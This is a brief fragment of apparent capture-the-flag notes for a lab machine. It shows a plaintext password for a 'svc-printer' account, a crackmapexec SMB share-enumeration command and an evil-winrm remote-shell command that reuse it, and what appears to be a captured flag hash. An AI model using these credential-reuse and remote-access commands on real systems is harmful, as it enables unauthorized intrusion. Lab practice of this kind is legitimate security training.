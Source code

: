 
```
1edFg43012!!
```

```
cme smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' --shares
```
![[Pasted image 20231123112531.png]]

```
evil-winrm  -i 10.10.10.161 -u svc-printer -p '1edFg43012!!'
```
![[Pasted image 20231123113146.png]]



```
7888b95d5c018dd65e806feaa432a707
```